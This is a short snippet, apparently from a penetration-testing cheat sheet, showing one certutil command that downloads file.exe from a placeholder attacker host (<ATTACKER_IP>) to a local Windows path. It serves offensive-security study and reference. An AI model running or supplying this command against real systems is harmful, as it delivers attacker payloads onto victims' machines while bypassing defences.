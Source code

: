 ## Download with certutil
`certutil -URLcache -split -f http://<ATTACKER_IP>/file.exe c:\<path>\<to>\<file.exe>`
